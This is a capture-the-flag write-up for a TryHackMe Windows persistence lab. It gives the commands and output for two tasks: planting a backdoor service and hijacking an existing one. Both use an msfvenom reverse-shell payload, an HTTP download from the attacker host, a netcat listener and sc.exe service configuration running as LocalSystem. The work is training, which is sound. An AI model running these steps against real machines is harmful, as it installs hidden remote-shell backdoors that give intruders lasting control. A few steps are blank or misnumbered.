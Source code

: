 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/05/2023

# Creating Backdoor Services
1. Started this room's machine
2. `PowerShell`
3. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MACHINE IP> LPORT=<PORT NUMBER> -f exe-service -o <PAYLOAD NAME1>.exe`
```Bash
root@ip-10-10-44-151:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.44.151 LPORT=9999 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe

```
4. `sudo python3 -m http.server`
```bash
root@ip-10-10-44-151:~# sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.254.131 - - [06/Jul/2023 01:44:11] "GET /rev-svc.exe HTTP/1.1" 200 -
```
5. `PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://<MACHINE IP>:8000/<PAYLOAD NAME1>.exe','<PAYLOAD NAME2>.exe')"`
```PowerShell
PS C:\Users\Administrator> PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.44.151:8000/rev-svc.exe','Payload.exe')"
```
6. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/6/2023  12:44 AM          48640 Payload.exe
```
7. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
8. `sc.exe create <SERVICE NAME> binPath= "<PAYLOAD NAME2 PATH>" start= auto`
```PowerShell
PS C:\Users\Administrator> sc.exe create THMservice binPath= "C:\Users\Administrator\Payload.exe" start= auto
```
9. `sc.exe start <SERVICE NAME>`
```PowerShell
PS C:\Users\Administrator> sc.exe start THMservice

SERVICE_NAME: THMservice
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 4956
        FLAGS              :
```
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.254.131 49822 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
12. `C:\flags\flag7.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag7.exe
C:\flags\flag7.exe
THM{SUSPICIOUS_SERVICES}
```


**TASK COMPLETED**

# Modifying Existing Services
1. Started this room's machine
2. `sc.exe query state=all`
3. `sc.exe qc <SERVICE NAME>`
```PowerShell
C:\Users\Administrator>sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```
4. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc.exe`
```Bash
root@ip-10-10-44-151:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.44.151 LPORT=9999 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe
```
5. `sudo python3 -m http.server`
```Bash
root@ip-10-10-44-151:~# sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
6. ``
```PowerShell
PS C:\Users\Administrator> PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.44.151:8000/rev-svc.exe','Payload.exe')"
```
7. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/6/2023   1:24 AM          48640 Payload.exe
```

8. `sc.exe config <SERVICE NAME> binPath= "<MSFVENOM PAYLOAD PATH>" start= auto obj= "LocalSystem"`
```PowerShell
PS C:\Users\Administrator> sc.exe config THMservice3 binPath= "C:\Users\Administrator\Payload.exe" start= auto obj= "LocalSystem"
[SC] ChangeServiceConfig SUCCESS
```
9. `sc.exe qc <SERVICE NAME>`
```PowerShell
PS C:\Users\Administrator> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
10. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
11. `sc.exe start <SERVICE NAME>`
```PowerShell
PS C:\Users\Administrator> sc.exe start THMservice3

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1112
        FLAGS              :
```
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.180.50 49850 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
12. `C:\flags\flag8.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag8.exe
C:\flags\flag8.exe
THM{IN_PLAIN_SIGHT}
```


**TASK COMPLETED**
